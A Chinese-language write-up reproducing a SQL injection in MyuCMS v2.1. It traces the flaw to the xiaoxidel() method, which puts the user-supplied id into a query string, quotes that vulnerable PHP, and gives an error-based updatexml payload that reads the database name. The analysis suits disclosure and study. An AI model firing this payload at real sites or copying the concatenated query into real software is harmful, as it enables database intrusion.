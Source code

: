 MyuCMS v2.1 sql注入漏洞
=======================

一、漏洞简介
------------

二、漏洞影响
------------

MyuCMS v2.1

三、复现过程
------------

在 CNVD 上的描述为，**MyuCMS us\**\*\_xi\**\*.html页面存在SQL注入漏洞**

通过对整个项目文件的搜索，最终确定为 **user\_xiaoxi.html** 文件。

该视图文件，对应的控制器为 **application/bbs/controller/User.php**
。显示消息为 **User-\>xiaoxi()**
方法。该方法中无用户可控参数。所以注入不可能在此方法中。

![1.jpg](resource/MyuCMSv2.1sql注入漏洞/media/rId24.jpg)

如图所示功能处可将未读消息更改为已读消息。同时我们抓包观察。未读消息为其他用户在登录用户发布的文章下留言所产生。

![2.jpg](resource/MyuCMSv2.1sql注入漏洞/media/rId25.jpg)

可以发现，该功能对应的路由地址，以及所提交的参数。我们找到路由地址对应的方法为
**User-\>xiaoxidel()** 代码如下

    public function xiaoxidel($ids)
        {
            if (!session('userid') || !session('username')) { // 进行登录判断
                $this->error('亲！请登录',url('bbs/login/index'));
            } else {
                if ($ids==0) { // 根据 ids 参数来判断执行的动作为标记消息还是删除消息
                $id = input('id'); // 通过input助手函数获取需要操作的消息对应的 id
                $data['open'] = 1;
                if (Db::name('xiaoxi')->where("id = {$id}")->where('userid', session('userid'))->update($data)) { // 此处第一个 where() 使用字符串条件时没有配合预处理机制，所以会直接将 id=$id 拼接到SQL语句中。从而造成了SQL语句可控，形成注入。此处可以进行DEBUG，看到最好的SQL语句是如何拼接的。
                    return json(array('code' => 200, 'msg' => '标记已读成功'));
                } else {
                    return json(array('code' => 0, 'msg' => '标记已读失败'));
                }
                }elseif ($ids==1){
                $id = input('id');
                if (Db::name('xiaoxi')->where("id = {$id}")->where('userid', session('userid'))->delete($id)) {
                    return json(array('code' => 200, 'msg' => '彻底删除成功'));
                } else {
                    return json(array('code' => 0, 'msg' => '彻底删除失败'));
                }
                }
            }
        }

上述代码中，**where()**
方法使用字符串条件，但并没有执行预编译。其实针对字符串条件，官方手册是做了说明的，显然这里没有遵守官方手册的意见，所以造成了SQL注入。

![3.png](resource/MyuCMSv2.1sql注入漏洞/media/rId26.png)

### Payload

Payload如下

    Payload: id=2) and updatexml(1,concat(0x7e,(select database()),0x7e),1)  and (1

在下图所示位置打上断点，即可查执行的SQL语句

![4.jpg](resource/MyuCMSv2.1sql注入漏洞/media/rId28.jpg)

参考链接
--------

> https://xz.aliyun.com/t/7271\#toc-0
